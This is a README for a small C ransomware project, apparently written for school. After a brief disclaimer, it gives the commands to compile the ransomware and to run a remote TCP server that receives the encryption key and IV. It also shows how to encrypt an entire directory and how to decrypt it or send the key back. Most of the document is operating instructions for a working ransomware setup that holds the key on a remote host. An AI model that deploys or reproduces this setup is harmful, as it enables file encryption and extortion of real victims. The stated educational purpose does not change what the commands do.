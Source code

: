 # CRansomware
A little Ransomware made in C for a school project.

Please do not use it as a virus. It is not made for this purpose. The aim of this project is studying how sockets and crypto work with C (memory aswell).

# How to Use

You need to compilate the ransom.c

/!\ The IP and the port of the remote server (that will receive the key and the IV is hard coded). /!\

On the Client
```
gcc -o ransom ransom.c ransomlib.c -lcrypto
```

if the compilation fails, you can try to use this command to fix it
```
sudo apt install libssl-dev
```

On the remote server

You compilate the TCP.C (It will allow you to get the key and IV)
```
gcc TCP.c -o TCP
```

usage of the compilated Binary

```
./TCP <IP> <PORT>
```

/!\ If the TCP server is not running, you won't be able to encrypt files /!\

# Run the Ransomware on the client

To encrypt a whole directory

```
./ransom <path> encrypt
```

To decrypt

```
./ransom <path> decrypt <key> <IV>
```

# Sendback

The send back is used to send back the key and the IV to the client (that will have the TCP scipt compilated on it).

Compilate it 
```
gcc sendback.c -o sendback
```
Run it.
```
./sendback <ip> <port> <key> <IV>
```
# Sendback

Ugo Dasseleer
Julien Detré
